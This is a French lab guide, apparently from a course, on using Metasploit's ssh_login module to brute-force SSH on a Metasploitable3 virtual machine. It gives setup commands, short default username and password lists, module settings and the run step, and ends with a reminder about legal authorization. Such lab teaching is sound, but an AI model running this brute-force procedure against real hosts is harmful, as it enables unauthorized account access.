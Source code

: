 ## LAB6 - PARTIE2 - Configuration et Utilisation de Metasploit pour Attaque par Force Brute SSH

# 1 -  Description
Ce document fournit des instructions détaillées pour utiliser Metasploit afin de lancer une attaque par force brute SSH contre une machine cible, en l'occurrence Metasploitable3. Ce guide couvre la préparation des fichiers nécessaires, la configuration de Metasploit, et le lancement de l'attaque.

# 2 -  Prérequis
- Un ordinateur ou une machine virtuelle avec Ubuntu 22.04 installé.
- Accès à un compte avec des privilèges d'administrateur.
- **Système d'exploitation**: Linux (Ubuntu 22.04 préféré)
- **Metasploit Framework installé**
- **Accès administratif sur la machine où Metasploit est installé**
- **Machine cible configurée et accessible sur le réseau**

# 3 - Ajout de l'Utilisateur `eleve` au Fichier sudoers
1. **Ouvrez un terminal.**
2. Devenez superutilisateur pour modifier les fichiers de configuration système:
   ```bash
   su
   ```
3. Éditez le fichier sudoers pour ajouter des privilèges administratifs à `eleve`:
   ```bash
   visudo
   ```
4. Ajoutez la ligne suivante pour donner à `eleve` les droits sudo:
   ```
   eleve ALL=(ALL) ALL
   ```
5. **Enregistrez et quittez** l'éditeur. Utilisez `CTRL+X`, suivi de `Y` pour enregistrer si vous utilisez `nano` comme éditeur dans `visudo`.

6. Tapez `exit` pour retourner à la session de l'utilisateur `eleve`.

# Remarque IMPORTANTE #1:  root
- Il ne faut pas utiliser un root user étant donné que c'est bloquant ! C'est pour cette raison j'utilise eleve.
# Remarque IMPORTANTE #2:  permissions
- Déplacez les fichiers dans un répertoire où Metasploit a les permissions de lecture.
  ```bash
  sudo mv /home/eleve/usernames.txt /snap/metasploit-framework/
    ```
# 4 - (MÉTHODE#1) Installation de Metasploit (si non installé)

1. Ouvrez un terminal.
2. Exécutez les commandes suivantes pour installer Metasploit:
   ```bash
   sudo apt update
   sudo apt install metasploit-framework
   ```
# 4 - (MÉTHODE#2) Installation de Metasploit Framework
1. **Ouvrez un terminal sous le compte `eleve`.**
2. Mettez à jour les paquets et installez les dépendances:
   ```bash
   sudo apt update
   sudo apt install curl gnupg2 software-properties-common
   ```
3. **Ajoutez le dépôt officiel de Metasploit**:
   ```bash
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
   chmod 755 msfinstall
   sudo ./msfinstall
   ```
4. **Vérifiez l'installation** en démarrant Metasploit:
   ```bash
   msfconsole
   ```



# 5 - Étape 1: Préparation des Fichiers de Noms d'Utilisateurs et de Mots de Passe
1. **Création des fichiers** :
   - Créez les fichiers contenant les noms d'utilisateurs et les mots de passe que vous prévoyez d'utiliser pour l'attaque.
     ```bash
     echo -e "root\nadmin\nuser\ntest\nguest\ninfo\noperator" > /home/eleve/usernames.txt
     echo -e "password\n123456\nadmin\nguest\n123123\npassword1\nqwerty\n12345\n123456789\ntest" > /home/eleve/passwords.txt
     ```

2. **Modification des permissions** :
   - Assurez-vous que les fichiers sont lisibles.
     ```bash
     chmod 644 /home/eleve/usernames.txt
     chmod 644 /home/eleve/passwords.txt
     ```

3. **Changement de propriétaire** :
   - Changez le propriétaire des fichiers pour garantir que Metasploit peut y accéder.
     ```bash
     sudo chown $(whoami) /home/eleve/usernames.txt
     sudo chown $(whoami) /home/eleve/passwords.txt
     ```

# 6 - Étape 2: Déplacement des Fichiers dans un Répertoire Accessible par Metasploit
- Déplacez les fichiers dans un répertoire où Metasploit a les permissions de lecture.
  ```bash
  sudo mv /home/eleve/usernames.txt /snap/metasploit-framework/
  sudo mv /home/eleve/passwords.txt /snap/metasploit-framework/
  ```

# 7 - Étape 3: Configuration de Metasploit

1. ** Initialisation de la Base de Données Metasploit
- Initialisez la base de données PostgreSQL pour Metasploit** (ce qui améliore les performances de Metasploit et permet la persistance des données entre les sessions):
   ```bash
   msfdb init
   ```
2. **Lancement de Metasploit** :
   - Ouvrez Metasploit en utilisant la commande suivante :
     ```bash
     msfconsole
     ```

3. **Configuration du module SSH** :
   - Configurez Metasploit pour utiliser les fichiers déplacés et ciblez la machine appropriée.
     ```bash
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS 172.28.128.3
     set USER_FILE /snap/metasploit-framework/usernames.txt
     set PASS_FILE /snap/metasploit-framework/passwords.txt
     set VERBOSE true
     ```
## Remarque : 172.28.128.3 est l'adresse de la machine metasploitable3 (host only adapter regardez le lab précédent ) dans mon cas


# 7 -  Étape 4: Lancement de l'Attaque
- Exécutez le module pour commencer l'attaque.
  ```bash
  run
  ```

### Conseils de Sécurité
- **Permissions**: Vérifiez régulièrement que les permissions des fichiers sont correctement configurées pour éviter tout accès non autorisé.
- **Légalité**: Assurez-vous d'avoir l'autorisation explicite de tester la machine cible. L'utilisation de Metasploit sans consentement est illégale.

### Dépannage
- Si des problèmes surviennent, vérifiez les logs de Metasploit pour des détails sur les erreurs. Assurez-vous que les chemins des fichiers sont corrects et que les fichiers ne sont pas corrompus.

---

Ce document devrait vous fournir une base solide pour l'utilisation sécurisée et efficace de Metasploit dans vos tests de pénétration. Assurez-vous de suivre les meilleures pratiques de sécurité et de conformité légale lors de vos tests.
